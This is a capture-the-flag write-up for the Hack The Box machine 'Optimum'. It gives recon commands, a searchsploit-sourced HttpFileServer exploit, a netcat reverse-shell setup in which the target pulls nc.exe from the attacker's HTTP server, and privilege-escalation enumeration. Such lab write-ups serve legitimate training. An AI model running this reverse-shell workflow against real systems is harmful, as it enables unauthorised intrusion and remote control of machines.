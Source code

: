 # Optimum 

**OS:** Windows

**Level:** Easy

**Links:** [1](https://www.hackthebox.com/machines/Optimum)  [2](https://app.hackthebox.com/machines/Optimum)

**Machine ip:** 10.10.10.8

![Optimum](https://github.com/h4md153v63n/CTFs/assets/5091265/f0fe7004-231f-495f-b3b2-8af6d4e6d81a)


## Reconnaissance
```
sudo masscan -p1-65535,U:1-65535 --rate=1000 10.10.10.8 -e tun0 > ports

ports=$(cat ports | awk -F " " '{print $4}' | awk -F "/" '{print $1}' | sort -n | tr '\n' ',' | sed 's/,$//')

sudo nmap -Pn -n -sV -sC -O -p$ports 10.10.10.8 --open
```

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/6bd17850-1383-4bb9-9363-f840a535bbc5)


## Enumeration
![image](https://github.com/h4md153v63n/CTFs/assets/5091265/7b8a57ae-f7cc-4fee-a4bb-d9d8ae1f2ddb)

```
searchsploit httpfileserver

searchsploit -m 39161
```

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/160c6e02-5cc4-4c84-aa44-b51481749738)

Change ip addres and port number:

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/fbbb8068-00c8-4bda-8ae5-9b062ae8d92a)

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/a62cd8b5-3931-4863-9e43-c9bd8ca44602)


## Exploitation & Gaining Access
```
# On the kali attack vm:
cp /usr/share/windows-binaries/nc.exe .

# On the kali attack vm - different terminal:
sudo python3 -m http.server 80

# On the kali attack vm - different terminal you will get the revershell:
nc -nlvp 4444

# On the kali attack vm - different terminal:
python3 39161.py 10.10.10.8 80

python3 39161.py 10.10.10.8 80

```

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/0b3ad525-c717-4f8c-a61c-6bf6381ab8f2)


## Privilege Escalation
```
# On the kali attack vm:
python2 windows-exploit-suggester.py --update

python2 windows-exploit-suggester.py --database 2024-04-08-mssb.xls --systeminfo systeminfo.txt

# On the target machine:
systeminfo
```

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/a43d3006-c5f2-4141-9446-154e5c8169ea)

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/c48e9398-e5c2-4853-9bd8-1b9d0596b083)




# References & Alternatives
+ https://vvmlist.github.io/#Optimum
+ x


## CVE Scripting
+ x


## Tools
+ x


## Technical Knowledge
+ x


## Problems Solution
+ **SyntaxError: (unicode error) 'unicodeescape' codec can't decode bytes in position 2-3: truncated \UXXXXXXXX escape:**
  + https://youtu.be/rNmF991BSTE?t=40
  + https://www.geeksforgeeks.org/how-to-fix-syntaxerror-unicode-error-unicodeescape-codec-cant-decode-bytes/
  + https://community.alteryx.com/t5/Alteryx-Designer-Desktop-Discussions/Error-unicodeescape-codec-can-t-decode-bytes/td-p/427540
+ **SyntaxError: Missing parentheses in call to 'print'. Did you mean print(...)?:**
+ **ModuleNotFoundError: No module named 'urllib2':**
  + https://www.easytweaks.com/module-not-found-urllib2/
  + https://youtu.be/jfD_9DoWGlI?t=63
  + https://blog.finxter.com/fix-import-error-no-module-named-urllib2-python/
+ **ERROR: Could not find a version that satisfies the requirement urllib (from versions: none):**
  + https://github.com/ThomasTJdev/python_gdork_sqli/issues/1
+ **xlrd.biffh.XLRDError: Excel xlsx file; not supported:**
  + https://stackoverflow.com/questions/65254535/xlrd-biffh-xlrderror-excel-xlsx-file-not-supported


## For More
- x
